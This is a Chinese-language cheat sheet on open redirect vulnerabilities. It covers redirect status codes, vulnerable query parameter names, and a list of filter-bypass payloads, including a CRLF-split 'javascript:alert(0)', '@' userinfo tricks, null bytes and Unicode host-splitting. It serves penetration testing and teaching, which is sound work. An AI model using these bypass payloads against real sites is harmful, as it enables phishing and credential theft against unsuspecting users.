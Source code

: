 # 开放重定向漏洞 (Open Redirect)

> 当Web应用程序接受未经验证的用户输入，并可能导致Web应用程序将请求重定向到包含在不受信任输入中的URL时，就会发生未经验证的重定向和转发。通过将不受信任的URL输入修改为恶意站点，攻击者可能成功发起网络钓鱼诈骗并窃取用户凭据。由于修改后链接中的服务器名称与原始站点相同，因此网络钓鱼尝试可能看起来更可信。未经验证的重定向和转发攻击还可用于恶意构造URL，该URL将通过应用程序的访问控制检查，然后将攻击者转发到他们通常无法访问的特权功能。

## 目录

* [方法学](#方法学)
    * [HTTP重定向状态码](#http重定向状态码)
    * [重定向方法](#重定向方法)
        * [基于路径的重定向](#基于路径的重定向)
        * [基于JavaScript的重定向](#基于javascript的重定向)
        * [常见查询参数](#常见查询参数)
    * [过滤器绕过](#过滤器绕过)
* [实验环境](#实验环境)
* [参考资料](#参考资料)

## 方法学

开放重定向漏洞发生在Web应用程序或服务器使用未经验证的用户提供的输入将用户重定向到其他站点时。攻击者可以利用此漏洞制作指向易受攻击站点的链接，该链接会重定向到他们选择的恶意站点。

攻击者可以在网络钓鱼活动、会话窃取或迫使用户在未经同意的情况下执行操作中利用此漏洞。

**示例**：一个Web应用程序具有允许用户点击链接并自动重定向到保存的首选主页的功能。可能如下实现：

```ps1
https://example.com/redirect?url=https://userpreferredsite.com
```

攻击者可以通过将`userpreferredsite.com`替换为指向恶意网站的链接来利用此处的开放重定向。然后，他们可以在网络钓鱼电子邮件或其他网站上分发此链接。当用户点击该链接时，他们会被带到恶意网站。

## HTTP重定向状态码

HTTP重定向状态码（以3开头的状态码）表示客户端必须采取额外操作才能完成请求。以下是一些最常见的重定向状态码：

* [300 Multiple Choices](https://httpstatuses.com/300) - 表示请求有多个可能的响应。客户端应选择其中一个。
* [301 Moved Permanently](https://httpstatuses.com/301) - 表示请求的资源已永久移动到Location头中给出的URL。所有未来请求应使用新的URI。
* [302 Found](https://httpstatuses.com/302) - 表示请求的资源已临时移动到Location头中给出的URL。与301不同，它不表示资源已永久移动，只是暂时位于其他位置。
* [303 See Other](https://httpstatuses.com/303) - 服务器发送此响应以指示客户端使用GET请求在另一个URI获取请求的资源。
* [304 Not Modified](https://httpstatuses.com/304) - 用于缓存目的。它告诉客户端响应未被修改，因此客户端可以继续使用相同的缓存响应版本。
* [305 Use Proxy](https://httpstatuses.com/305) - 请求的资源必须通过Location头中提供的代理访问。
* [307 Temporary Redirect](https://httpstatuses.com/307) - 表示请求的资源已临时移动到Location头中给出的URL，未来请求仍应使用原始URI。
* [308 Permanent Redirect](https://httpstatuses.com/308) - 表示资源已永久移动到Location头中给出的URL，未来请求应使用新的URI。与301类似，但不允许更改HTTP方法。

## 重定向方法

### 基于路径的重定向

重定向逻辑可能依赖于路径而不是查询参数：

* 在URL中使用斜杠：`https://example.com/redirect/http://malicious.com`
* 注入相对路径：`https://example.com/redirect/../http://malicious.com`

### 基于JavaScript的重定向

如果应用程序使用JavaScript进行重定向，攻击者可能会操作脚本变量：

**示例**：

```js
var redirectTo = "http://trusted.com";
window.location = redirectTo;
```

**Payload**: `?redirectTo=http://malicious.com`

### 常见查询参数

```powershell
?checkout_url={payload}
?continue={payload}
?dest={payload}
?destination={payload}
?go={payload}
?image_url={payload}
?next={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
?return_path={payload}
?return_to={payload}
?return={payload}
?returnTo={payload}
?rurl={payload}
?target={payload}
?url={payload}
?view={payload}
/{payload}
/redirect/{payload}
```

## 过滤器绕过

* 使用白名单域名或关键词

    ```powershell
    www.whitelisted.com.evil.com 重定向到 evil.com
    ```

* 使用**CRLF**绕过"javascript"黑名单关键词

    ```powershell
    java%0d%0ascript%0d%0a:alert(0)
    ```

* 使用"`//`"和"`////`"绕过"http"黑名单关键词

    ```powershell
    //google.com
    ////google.com
    ```

* 使用"https:"绕过"`//`"黑名单关键词

    ```powershell
    https:google.com
    ```

* 使用"`\/\/`"绕过"`//`"黑名单关键词

    ```powershell
    \/\/google.com/
    /\/google.com/
    ```

* 使用"`%E3%80%82`"绕过"`。`"黑名单字符

    ```powershell
    /?redir=google。com
    //google%E3%80%82com
    ```

* 使用空字节"`%00`"绕过黑名单过滤器

    ```powershell
    //google%00.com
    ```

* 使用HTTP参数污染

    ```powershell
    ?next=whitelisted.com&next=google.com
    ```

* 使用"@"字符。[通用互联网方案语法](https://datatracker.ietf.org/doc/html/rfc1738)

    ```powershell
    //<user>:<password>@<host>:<port>/<url-path>
    http://www.theirsite.com@yoursite.com/
    ```

* 创建文件夹作为他们的域名

    ```powershell
    http://www.yoursite.com/http://www.theirsite.com/
    http://www.yoursite.com/folder/www.folder.com
    ```

* 使用"`?`"字符，浏览器会将其转换为"`/?`"

    ```powershell
    http://www.yoursite.com?http://www.theirsite.com/
    http://www.yoursite.com?folder/www.folder.com
    ```

* 主机/分割Unicode规范化

    ```powershell
    https://evil.c℀.example.com . ---> https://evil.ca/c.example.com
    http://a.com／X.b.com
    ```

## 实验环境

* [Root Me - HTTP - 开放重定向](https://www.root-me.org/fr/Challenges/Web-Serveur/HTTP-Open-redirect)
* [PortSwigger - 基于DOM的开放重定向](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection)

## 参考资料

* [Unicode规范化中的主机/分割可利用反模式 - Jonathan Birch - 2019年8月3日](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)
* [开放重定向速查表 - PentesterLand - 2018年11月2日](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)
* [开放重定向漏洞 - s0cket7 - 2018年8月15日](https://s0cket7.com/open-redirect-vulnerability/)
* [开放重定向Payloads - Predrag Cujanović - 2017年4月24日](https://github.com/cujanovic/Open-Redirect-Payloads)
* [未经验证的重定向和转发速查表 - OWASP - 2024年2月28日](https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet)
* [您不需要运行80个侦察工具来获取用户帐户访问权限 - Stefano Vettorazzi (@stefanocoding) - 2019年5月16日](https://gist.github.com/stefanocoding/8cdc8acf5253725992432dedb1c9c781)
